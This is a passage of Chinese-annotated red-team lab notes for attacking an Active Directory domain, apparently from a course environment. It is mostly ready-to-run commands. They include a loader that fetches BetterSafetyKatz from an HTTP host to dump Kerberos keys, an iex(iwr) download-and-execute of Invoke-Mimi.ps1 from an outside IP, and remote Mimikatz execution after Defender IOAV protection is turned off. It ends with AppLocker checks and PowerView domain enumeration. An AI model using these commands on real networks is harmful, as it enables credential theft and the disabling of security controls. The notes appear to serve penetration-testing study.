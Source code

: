 	- `winrs -r:dcorp-mgmt C:\Users\Public\Loader.exe -Path http://127.0.0.1:8080/BetterSafetyKatz.exe sekurlsa::ekeys`

### PowerShell Remote
- 本地 Load Powershell
	- `iex(iwr http://172.16.99.65:6666/Invoke-Mimi.ps1 -UseBasicParsing)`
- 開 PS Session
	- `$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local`
	- `Enter-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local`
- 關 IO AV Protection
	- `Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess`
- 直接執行
	- `Invoke-command -ScriptBlock ${function:Invoke-Mimi} -Session $sess`
	- `Invoke-command -Session $sess -FilePath ..\Invoke-MimiEx1.ps1`
		- 這邊的 FilePath 是 Local 的 File Path
### Bypass CLM (Constrained Language Mode, APP Locker)
- Check 
	- `reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2`
		- 如果有東西應該就是 App Locker
		- `reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2\Script`
		- 並依序 `reg query` 裡面的東西
	- `Get-AppLockerPolicy -Effective | Select -ExpandProperty RuleCollections`

## Domain Enumeration
Tools
- AD Module
	- `Import-Module .\Microsoft.ActiveDirectory.Management.dll`
	- `Import-Module .\ActiveDirectory.psd1` 記得兩個都要 Import 才能有完整功能
- PowerView
	- `Import-Module .\PowerView.ps1`
### Domain
- Get Current Domain
	- `Get-Domain` (PowerView)
		- `Get-Domain -Domain moneycorp.local` 其他 Domain
	- `Get-ADDomain` (AD Module)
		- `Get-ADDomain -Identity moneycorp.local` 其他 Domain
		- 可以顯示 Domain 的 Net-BIOS Name
- Get Domain SID
	- `Get-DomainSID` (PowerView)
		- `Get-DomainSID -Domain`
	- `(Get-ADDomain).DomainSID` (AD Module)
		- `(Get-ADDomain -Identity moneycorp.local).DomainSID`
- Get Domain Policy
	- `Get-DomainPolicyData`
		- `(DomainPolicyData).SystemAccess` 取得指定欄位的東西
		- `Get-DomainPolicyData -domain moneycorp.local` 指定其他 Domain
- Get Domain Controller (DC)
	- `Get-DomainController` (PowerView)
		- `-Domain moneycorp.local` 其他 Domain
	- `Get-ADDomainController` (AD Module)
		- `-Domain Name moneycorp.local -Discover` 其他 Domain
	- `gwmi -Class win32_computersystem -ComputerName {computername}`
		- `gwmi` = `Get-WmiObject`
- Get Domain User
	- PowerView
		- `Get-DomainUser`
			- `-Identity student365` 指定使用者名稱
			- `-Properties *` 全部東東
			- `-Properties samaccountname, logonCount` 指定東東
			- `-LDAPFilter "Description=*built*"` 搜尋指定東東
	- AD Module